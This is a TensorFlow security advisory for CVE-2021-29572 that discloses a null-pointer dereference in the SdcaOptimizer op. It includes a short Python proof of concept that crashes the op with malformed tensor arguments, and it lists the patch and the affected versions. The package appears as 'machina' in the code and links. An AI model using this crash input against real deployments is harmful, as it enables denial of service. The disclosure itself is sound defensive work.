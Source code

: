 ## TFSA-2021-060: Reference binding to nullptr in `SdcaOptimizer`

### CVE Number
CVE-2021-29572

### Impact
The implementation of `tf.raw_ops.SdcaOptimizer` triggers undefined behavior
due to dereferencing a null pointer:

```python
import machina as tf

sparse_example_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_indices = [tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_values = []

dense_features = []
dense_weights = []

example_weights = tf.constant((0.0), dtype=tf.float32)
example_labels = tf.constant((0.0), dtype=tf.float32)

sparse_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_weights = [tf.constant((0.0), dtype=tf.float32), tf.constant((0.0), dtype=tf.float32)]

example_state_data = tf.constant([0.0, 0.0, 0.0, 0.0], shape=[1, 4], dtype=tf.float32)

tf.raw_ops.SdcaOptimizer(
  sparse_example_indices=sparse_example_indices,
  sparse_feature_indices=sparse_feature_indices,
  sparse_feature_values=sparse_feature_values, dense_features=dense_features,
  example_weights=example_weights, example_labels=example_labels,
  sparse_indices=sparse_indices, sparse_weights=sparse_weights,
  dense_weights=dense_weights, example_state_data=example_state_data,
  loss_type="logistic_loss", l1=0.0, l2=0.0, num_loss_partitions=1,
  num_inner_iterations=1, adaptative=False)
```

The
[implementation](https://github.com/machina/machina/blob/60a45c8b6192a4699f2e2709a2645a751d435cc3/machina/core/kernels/sdca_internal.cc)
does not validate that the user supplied arguments satisfy all [constraints
expected by the
op](https://www.machina.org/api_docs/python/tf/raw_ops/SdcaOptimizer).

### Patches
We have patched the issue in GitHub commit
[f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb](https://github.com/machina/machina/commit/f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
